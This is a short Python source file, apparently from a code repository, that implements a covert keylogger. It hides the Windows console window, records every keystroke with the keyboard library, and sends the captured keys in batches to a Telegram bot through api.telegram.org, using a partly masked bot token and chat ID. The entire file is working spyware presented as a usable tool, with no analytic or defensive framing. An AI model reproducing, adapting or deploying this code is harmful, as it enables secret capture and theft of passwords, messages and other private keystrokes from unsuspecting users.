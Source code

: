 # codtech
import requests
import keyboard
import ctypes
import os

# Hide the console window (only on Windows)
def hide_console():
    if os.name == 'nt':
        ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)

# Hide the console window at the start
hide_console()

print("start")

# Your Telegram bot token
token = "7407307145:AAFeUxxxxxxxxxxxxxxxx"
url = f"https://api.telegram.org/bot{token}/sendMessage"

# Chat ID to send the messages to
chat_id = "14534xxxxxx"

data = ""
while True:
    a = keyboard.read_key()
    data += f"{a} "
    if len(data) > 20:
        print(data)
        pram = {"chat_id": chat_id, "text": data}
        print(url, pram)
        res = requests.post(url, data=pram)
        if res.status_code == 200:
            print("Message sent successfully!")
        else:
            print("Failed to send message.")
            print(f"Status Code: {res.status_code}")
            print(f"Response: {res.json()}")
        data = ""
        print(data)
